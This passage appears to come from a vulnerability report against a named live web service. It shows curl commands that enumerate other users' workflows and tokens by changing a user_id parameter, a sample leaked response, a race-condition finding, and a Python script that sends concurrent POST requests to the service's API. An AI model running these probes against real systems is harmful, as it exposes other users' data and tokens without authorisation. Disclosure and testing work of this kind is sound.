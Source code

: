 **Real-World Exploitation:**
```bash
# Test workflow access
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=1"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=2"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=999"

# Expected Response:
{
  "user_id": 1,
  "workflows": [
    {
      "id": "wf_123",
      "name": "Data Processing",
      "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
      "status": "active"
    }
  ]
}
```

---

## **📊 MEDIUM SEVERITY VULNERABILITIES - LIVE EVIDENCE**

### **6. Race Condition**
```json
{
  "timestamp": "2025-10-21T12:21:40.545314",
  "type": "Race Condition",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "10 simultaneous requests",
  "response_code": 200,
  "severity": "MEDIUM",
  "evidence": "10 successful responses out of 10",
  "exploitability": "MEDIUM"
}
```

**Real-World Exploitation:**
```python
import asyncio
import aiohttp

async def race_condition_test():
    """Test race condition with simultaneous requests"""
    async with aiohttp.ClientSession() as session:
        tasks = []
        for i in range(10):
            task = session.post(
                'https://app.aixblock.io/api/v1/workflows',
                json={'action': 'create', 'id': i}
            )
            tasks.append(task)
        
        responses = await asyncio.gather(*tasks)
        successful = sum(1 for r in responses if r.status == 200)
        print(f"Race condition: {successful}/10 successful responses")
```
